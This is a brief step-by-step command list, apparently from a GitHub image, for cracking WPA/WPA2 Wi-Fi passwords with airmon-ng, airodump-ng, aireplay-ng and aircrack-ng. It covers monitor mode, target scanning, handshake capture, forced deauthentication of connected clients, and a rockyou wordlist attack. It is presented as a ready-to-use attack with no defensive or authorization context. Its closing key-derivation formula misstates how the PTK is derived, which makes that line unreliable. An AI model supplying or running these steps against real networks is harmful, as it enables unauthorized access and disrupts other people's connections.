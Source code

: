 1) set the wifi card to monitor mode.
sudo airmon-ng start wlp2s0
iwconfig

2) scan using:
sudo airodump-ng wlp2s0mon
find desired bssid and ch (channel number)

3) capture the handshake when asked to re-authenticate 
sudo airodump-ng -c <channel> --bssid <BSSID> -w ~/capture/capture wlp2s0mon

4) force re-authentication:
sudo aireplay-ng --deauth 5 -a <BSSID> wlp2s0mon

5) multi task it to send the handshake then bruteforce the password from traffic 
aircrack-ng -w rockyou.txt -b <BSSID> capture-01.cap

6) you can ensure the pcap file contains the correct BSSID:

aircrack-ng capture-01.cap

7) we are catching the un-encrypted communication and the Pairwise Transient Key (PTK)

PTK = PBKDF2(PSK, SSID, ANonce, SNonce, MACs)

